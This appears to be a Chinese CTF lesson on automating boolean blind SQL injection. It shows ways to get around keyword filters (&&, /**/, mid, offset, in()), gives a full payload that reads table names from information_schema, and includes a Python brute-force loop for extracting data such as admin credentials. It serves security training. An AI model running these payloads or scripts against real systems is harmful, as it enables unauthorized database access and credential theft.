# CTF解题：09：2-8：布尔盲注CTF题目解决 🔍


在本节课中，我们将学习如何利用Python脚本自动化解决布尔盲注类型的CTF题目。手工进行布尔盲注非常耗时，而脚本可以极大地提高效率。

## 概述
我们将通过三个核心步骤来完成自动化布尔盲注：首先确定注入点，然后构造并测试基础的注入利用语句，最后使用Python脚本自动化地逐位获取数据。

---



## 确定注入点与绕过过滤 🎯

上一节我们介绍了布尔盲注的基本概念，本节中我们来看看如何确定注入点并绕过常见的过滤规则。





通常，我们可以使用 `and 1=1` 和 `and 1=2` 来测试注入点。但如果Web程序过滤了 `and` 关键字，这种方法就会失效。

在MySQL中，可以使用双 `&` 符号（即 `&&`）来替代 `and` 关键字。由于URL中 `&` 是参数分隔符，我们需要将其进行URL编码（`%26`）才能正确传递。

以下是测试注入点的步骤：
1.  在浏览器或Burp Suite中，尝试提交 `id=1 %26%26 1`（真条件）。
2.  再尝试提交 `id=1 %26%26 0`（假条件）。
3.  观察页面返回结果（如 `success` 或 `fail`）是否不同。如果不同，则证明该参数存在布尔盲注漏洞。



通过以上方法，我们确定了注入点并找到了绕过 `and` 过滤的方法。



---







## 构造原始注入语句 🛠️

在确定了注入点之后，我们需要构造出能够用于数据提取的原始SQL注入语句。





由于存在多种过滤（如空格、`substr`、逗号、等号），我们需要对标准语句进行变形和绕过。

以下是构造原始Payload的关键点：
*   **绕过空格**：使用注释符 `/**/` 代替空格。
*   **绕过 `substr`**：使用功能类似的 `mid()` 函数。
*   **绕过逗号**：在 `limit` 子句中使用 `offset` 语法，例如 `limit 1 offset 0`。对于 `mid()` 函数，使用 `mid((select...),1,1)` 的替代写法 `mid((select...) from 1 for 1)`。
*   **绕过等号**：使用 `in()` 操作符代替 `=`，例如 `'a'` 改为 `('a')`。

最终，我们构造出用于逐位判断表名第一个字符的Payload原型：
```sql
-1/**/||/**/(ascii(mid((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema/**/in(database())/**/limit/**/1/**/offset/**/0)/**/from/**/1/**/for/**/1)))/**/in(97)
```
这个语句的含义是：判断当前数据库第一个表名的第一个字符的ASCII码是否等于97（即字符 ‘a’）。通过修改 `offset` 值、`from ... for` 的值以及 `in()` 里的ASCII码，即可遍历所有数据。

---

## Python脚本自动化利用 🤖

手工替换Payload中的位置和字符进行爆破是不现实的。本节我们将利用Python脚本来自动化这个过程。

脚本的核心逻辑是循环遍历我们猜测的字符集，替换原始Payload中的特定位置，发送请求，并根据HTTP响应长度或内容判断猜测是否正确。

以下是编写自动化脚本的主要步骤：



1.  **定义字符集**：创建一个包含所有可能字符（如字母、数字）的字符串。
    ```python
    chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    ```
2.  **设置目标URL和成功标识**：确定存在注入的URL地址，并找到区分“真”与“假”响应的特征（如页面内容关键字或响应长度）。
    ```python
    url = "http://target.com/page.php"
    success_len = 1764 # 正确响应时的长度
    ```
3.  **构造Payload模板**：将上一步手工验证成功的Payload作为模板，把需要爆破的位置用占位符（如 `{offset}`， `{pos}`， `{char_ascii}`）替换。
4.  **多层循环遍历**：
    *   第一层循环遍历表、列或数据的条目（`offset`值）。
    *   第二层循环遍历每条数据的长度（`pos`值）。
    *   第三层循环遍历字符集，生成每个位置可能的ASCII码值。
5.  **发送请求与判断**：在循环中格式化Payload，发送HTTP请求，检查响应是否匹配“真”的条件。如果匹配，则记录该字符，并跳出当前字符循环，进入下一个位置。
    ```python
    import requests
    for table_index in range(0, 2): # 假设爆破前两个表
        table_name = ""
        for position in range(1, 50): # 假设表名长度小于50
            for char in chars:
                ascii_val = ord(char)
                # 格式化payload，替换占位符
                payload = template.format(offset=table_index, pos=position, char_ascii=ascii_val)
                params = {'id': payload}
                r = requests.get(url, params=params)
                if len(r.content) == success_len: # 根据长度判断
                    table_name += char
                    print(f"找到字符: {char}")
                    break
        print(f"表名 {table_index}: {table_name}")
    ```
6.  **依次获取数据**：重复上述过程，修改Payload模板，依次获取：
    *   数据库表名
    *   指定表的列名（字段名）
    *   指定列的具体数据值



通过运行脚本，我们便能自动化的获取到敏感信息，例如管理员表的用户名和密码。





---



## 总结



本节课我们一起学习了布尔盲注CTF题目的自动化解决方法。





我们首先学习了如何识别注入点并绕过简单的关键字过滤。然后，掌握了构造复杂绕过Payload的技巧，以应对空格、函数名、逗号等多种过滤手段。最后，我们重点讲解了如何将这些手工过程转化为Python脚本，通过定义字符集、设置循环、格式化请求和判断响应，实现全自动的数据提取。







理解布尔盲注的原理并能够编写自动化利用脚本，是解决此类CTF题目的关键技能。